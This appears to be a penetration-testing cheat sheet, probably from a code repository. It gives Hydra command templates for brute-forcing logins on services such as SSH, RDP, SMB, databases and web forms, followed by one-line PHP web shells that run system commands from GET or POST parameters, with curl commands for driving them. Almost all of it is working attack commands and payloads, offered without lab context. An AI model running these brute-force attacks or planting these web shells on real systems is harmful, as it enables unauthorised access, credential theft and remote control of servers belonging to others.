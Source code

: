 ### Brute-Force Logins
```
hydra -l <username> -P <password_file> <service>://<IP|Hostname>
[Uses Hydra to brute-force passwords for a specific username on a given service and target]

hydra -L <username_file> -P <password_file> <service>://<IP|Hostname>
[Brute-forces passwords for each username in the supplied username list]

hydra -C <username:password_file> <service>://<IP|Hostname>
[Tests credentials in a colon separated file supplied (eg. admin:password123)]

Optional Arguments:
    -w <number>     Time to wait (seconds) between retries
    -W <number>     Time to wait (seconds) between login attempts
    -s <number>     Specify a port
    -f              Stop the attack once a valid username and password are found
    -T <number>     Set a specific number of threads to use in the attack
    -o <filename>   Output scan results to given file
    -v              Verbose mode. Output more information

- Brute-force HTTP Logins (POST):
hydra -l <username> -P <password_file> <IP|Domain> http-post-form "/<login_endpoint>:<username_parameter>=<username>&<password_parameter>=^PASS^:<Incorrect_Password_String>"

- Brute-force HTTP Login (GET):
hydra -v -l <username> -P <password_file> "http-get://<IP|Domain>/<endpoint>:A=BASIC:F=<status_code_for_invalid_login>"

Common Supported Services:
[You can see the full list of supported protocols by running "hydra -h"]
    - FTP
    - http-{head|get|post}
    - http-{get|post}-form
    - IMAP
    - ldap(2|3)
    - mongodb
    - mssql
    - mysql
    - POP3
    - postgres
    - RDP
    - SMB
    - SMTP
    - SSH
    - telnet
    - VNC
```

### PHP Web Shells
```
Basic PHP Web Shells:

GET Request:
    <?php system($_GET['cmd']); ?>
    <?php echo exec($_GET['cmd']); ?>
    <?php passthru($_GET['cmd']) ?>
    [Interaction: 'curl http(s)://<target.site>/shell.php?cmd=<command>']

POST Request:
    <?php system($_POST['cmd']); ?>
    <?php echo exec($_POST['cmd']); ?>
    <?php passthru($_POST['cmd']) ?>
    [Interaction: 'curl -X POST http(s)://<target.site>/shell.php -d "cmd=<command>"']
```